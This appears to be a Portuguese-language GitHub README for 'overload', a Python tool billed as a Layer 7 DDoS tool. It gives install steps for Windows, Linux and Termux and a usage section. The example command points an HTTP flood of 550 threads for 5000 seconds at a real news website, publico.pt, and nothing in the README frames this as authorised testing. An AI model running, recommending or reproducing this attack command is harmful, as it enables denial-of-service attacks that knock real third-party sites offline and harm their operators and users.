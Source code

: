 <h1 align="center">📡 DDOS Tool (Layer 7) </h1> 

![made-with-python](https://img.shields.io/badge/Made%20with-Python-1f425f.svg)  ![Windows](https://svgshare.com/i/ZhY.svg)  ![Linux](https://svgshare.com/i/Zhy.svg)  ![GitHub forks](https://img.shields.io/github/forks/7zx/overload?style=social&label=Fork&maxAge=2592000)

<p align="center">
  <img src="https://raw.githubusercontent.com/7zx/overload/main/img/logo.png" width="200" height="200">
</p>

# :computer: Janela Principal
<p align="center">
  <img src="https://raw.githubusercontent.com/tanjilk/overload/main/img/imgshow.png">
</p>

# 🌙 Instalação


<h2>Windows</h2> <img src="https://cdn.iconscout.com/icon/free/png-256/windows-221-1175066.png" width="50" height="50">  

  - Instala Python 3.8 [aqui](https://www.python.org/downloads/release/python-38)
  - Abre o installer e clica em: `add python to PATH`
  - Faz download do overload <a href="https://github.com/7zx/overload/archive/refs/heads/main.zip" target="blank">aqui</a>
  - Abre o cmd ou o PowerShell no diretório overload
  - Execute este comando: `pip install -r requirements.txt`  


 

 <h2>Linux</h2><img src="https://raw.githubusercontent.com/8fn/overload/main/img/linux-icon-28166.png" width="50" height="50">

```
sudo apt update
sudo apt install python3 python3-pip git -y
git clone https://github.com/7zx/overload
cd overload/
pip3 install -r requirements.txt
```

<h2>Termux</h2><img src="https://brandslogos.com/wp-content/uploads/images/large/terminal-logo.png" width="50" height="50">  

```
pkg update
pkg install python3 python3-pip git -y
git clone https://github.com/7zx/overload
cd overload/
pip3 install -r requirements.txt
```

## ❓ Como Usar
O comando básico para poder executar o overload é o seguinte.  

```
python3 overload.py --time XXX --threads XXX --target [URL] --method HTTP
```

Exemplo:  

```
python3 overload.py --time 5000 --threads 550 --target https://www.publico.pt/ --method HTTP
```
